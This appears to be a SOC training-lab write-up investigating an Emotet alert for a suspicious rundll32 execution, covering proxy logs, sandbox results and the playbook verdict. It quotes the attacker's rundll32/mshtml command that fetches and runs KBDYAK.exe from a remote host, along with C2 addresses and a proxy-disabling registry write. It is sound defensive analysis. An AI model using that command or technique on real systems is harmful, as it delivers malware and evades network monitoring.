






# SOC125 – Suspicious Rundll32 Activity (Event ID 58)

## 1. Alert Overview

| Field | Details |
|---|---|
| Event ID | 58 |
| Alert Rule | SOC125 – Suspicious Rundll32 Activity |
| Event Time | `2021-02-14 12:13:34 UTC+03:00` |
| Alert Type | Malware |
| Difficulty | Medium |
| Hostname | `EmilyComp` |
| Source IP | `172.16.17.49` |
| File Name | `KBDYAK.exe` |
| File Size | `848.00 KB` |
| File Hash (MD5) | `a4513379dad5233afa402cc56a8b9222` |
| Device Action | **Allowed** |
| MITRE ATT&CK | T1204 (as provided by the alert) |
| Final Verdict | **True Positive** |

## 2. Investigation Findings

### 2.1. Endpoint Command-Line Analysis

The endpoint terminal history recorded the following command:

```cmd
rundll32.exe javascript:'../mshtml,RunHTMLApplication ';document.write();GetObject('script:http://ru-uid-507352920.pp.ru/KBDYAK.exe')
```

The command uses `rundll32.exe` with an unusual JavaScript and MSHTML invocation. It then uses `GetObject` with the `script:` moniker to reference an external URL hosting `KBDYAK.exe`.

This is suspicious because it attempts to use a Windows utility and scripting-related functionality to access remote content rather than simply launching an executable through a conventional process-creation command.

The requested URL is:

`http://ru-uid-507352920.pp.ru/KBDYAK.exe`

The file name and hash associated with the alert provide the basis for correlating this activity with the sample analyzed in the sandbox.



### 2.2. Proxy Log Analysis

Log Management recorded two outbound Proxy events originating from `172.16.17.49`.

| Log Time (as displayed) | Source Port | Destination IP | Destination Port | Action |
|---|---:|---|---:|---|
| `2021-02-14 11:13:08` | `14474` | `67.68.210.95` | `80` | **Allowed** |
| `2021-02-14 11:13:41` | `13434` | `162.241.242.173` | `8080` | **Allowed** |

The raw logs contain the following requested URLs.

**Request 1:**

`http://67.68.210.95/2SjAcA5VhhJiFjBQ/vvszin6AicmidnG5bg/DaDVVYvfEHlcIIcgcu/0U5UiIkaHankrHGa/FYSJmdQDj2ejni1UI/`

**Request 2:**

`http://162.241.242.173:8080/HQ9TemntfBzghL/3wz57awaSHlQrrnP/S78n2aUqY7U/`

Both records show the Proxy action as **Allowed**, meaning the requests were permitted by the Proxy. This does not make the destinations benign; the activity must be assessed using the requested URLs, destination reputation, and endpoint evidence.







### 2.3. URL Reputation Analysis

The investigation included reputation checks for the URLs associated with the suspicious activity. The resulting reputation evidence is documented in the supplied screenshots.





URL reputation is supporting threat-intelligence evidence. It is most useful when considered alongside the endpoint command and the observed network activity rather than in isolation.

### 2.4. ANY.RUN Sandbox Analysis

The file hash from the alert matches the sample analyzed in the following ANY.RUN report:

**[ANY.RUN Report — KBDYAK.exe](https://any.run/report/ccd380ea868ffad4f960d7455fecf88c2ac3550001bbb6c21c31ae70b3bbf4f6/11ae7dcd-0f53-4d9e-979f-277b3b33773e)**

The sandbox classified the sample as **Emotet Trojan** and recorded several behaviors relevant to this investigation.

#### Process activity

The sandbox observed these processes:

- `KBDYAK.exe`, PID `2532`, running from `C:\Users\admin\AppData\Local\Temp\KBDYAK.exe`.
- `ws2help.exe`, PID `568`, running from `C:\Users\admin\AppData\Local\WinFax\ws2help.exe`, with `KBDYAK.exe` listed as its parent process.

The report recorded the `ws2help.exe` file with the same MD5 as the original `KBDYAK.exe` sample. This supports the finding that the sample created a copy under a different name and path.

#### Registry activity

The sandbox recorded five Registry write operations performed by `ws2help.exe`. Three were associated with Internet cache settings, and two involved Internet connection settings.

One particularly important modification was:

**Registry path:**

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings
```

**Value name:** `ProxyEnable`

**Written value:** `0`

The `ProxyEnable` value controls the traditional proxy setting for the current Windows user:

| Value | Meaning |
|---|---|
| `1` | Proxy enabled |
| `0` | Proxy disabled |

By writing `0` to `ProxyEnable`, the process attempted to disable the configured proxy setting for the current user. In an environment where outbound web traffic is expected to pass through a corporate proxy, this could affect traffic routing and potentially reduce the visibility provided by that proxy.

This is a significant finding because the modification was performed by `ws2help.exe`, which the sandbox linked to the malicious `KBDYAK.exe` sample.

The report also recorded writes to the following cache-related values:

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\Cache\Content
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\Cache\Cookies
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\Cache\History
```

Each contained a write to a value named `CachePrefix`.

Another write was recorded under:

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections
```

The value name was `SavedLegacySettings`. The report presents its data in hexadecimal form, so the exact meaning of every byte cannot be established from the displayed value alone.

The `ProxyEnable = 0` modification is the clearest evidence of an attempt to disable the user's traditional proxy setting. However, the write alone does not prove that all applications stopped using a proxy or that a specific security control was successfully bypassed.

#### Network activity

The sandbox identified a POST request from `ws2help.exe` to:

`189.212.199.126:443`

The report also listed `67.68.210.95:80` and `162.241.242.173:8080` among its network connections and marked the relevant destinations as malicious.

The two IP addresses in the Proxy logs therefore match destinations listed in the sandbox report for the sample matching the alert's MD5. This provides additional evidence connecting the observed network activity to the malicious sample.

Sandbox results describe activity observed in the analysis environment. They support the investigation but do not independently prove that every behavior observed in the sandbox occurred on `EmilyComp`.

### 2.5. Investigation Summary

The investigation established the following findings:

1. The endpoint history contained a suspicious `rundll32.exe` command referencing the external `KBDYAK.exe` URL.
2. Two outbound Proxy requests from `172.16.17.49` were allowed.
3. The destination IP addresses in those Proxy logs also appeared in the sandbox's network activity for the sample matching the alert's MD5.
4. The sandbox linked the sample to Emotet behavior, including a dropped executable with the same hash under a different name and path.
5. The sandbox recorded a Registry write setting `ProxyEnable` to `0`, which disables the traditional proxy setting for the current user.

Together, these findings support a malicious interpretation of the alert.

## 3. Playbook Investigation

### 3.1. Define Threat Indicator

**Answer:** Anti-virus programs malfunctioning or becoming disabled for unknown reasons.

This is the threat indicator selected in the lab playbook. The provided evidence should not be treated as independent confirmation that antivirus software was actually disabled on `EmilyComp`.

### 3.2. Check if the Malware Is Quarantined/Cleaned

**Answer: Not Quarantined**

The playbook indicates that the sample was not quarantined. The alert also records the device action as **Allowed**.

### 3.3. Analyze Malware

**Answer: Malicious**

The lab playbook classified the sample as malicious. The matching hash and the ANY.RUN analysis provide supporting evidence for this result.

### 3.4. Check If Someone Requested the C2

**Answer: Accessed**

The lab playbook answer is **Accessed**. The Proxy records show allowed requests to two IP addresses that also appear in the sandbox network activity. This supports the playbook result, although the available logs do not expose the full content of the network communications.

## 4. Final Assessment

**Verdict: True Positive**

The alert is classified as a True Positive because the endpoint recorded a suspicious `rundll32.exe` command referencing `KBDYAK.exe`, while the Proxy logs showed allowed outbound requests to destinations also observed in the ANY.RUN analysis of the matching sample.

The sandbox identified the sample as Emotet and recorded process, file, Registry, and network behaviors consistent with malicious activity. Of particular importance, the `ws2help.exe` process wrote `ProxyEnable = 0` under the current user's Internet Settings, indicating an attempt to disable the traditional proxy setting.

The sample was reported as not quarantined, and the Proxy actions were allowed. The available evidence does not establish successful data theft or the exact content exchanged with the external destinations.
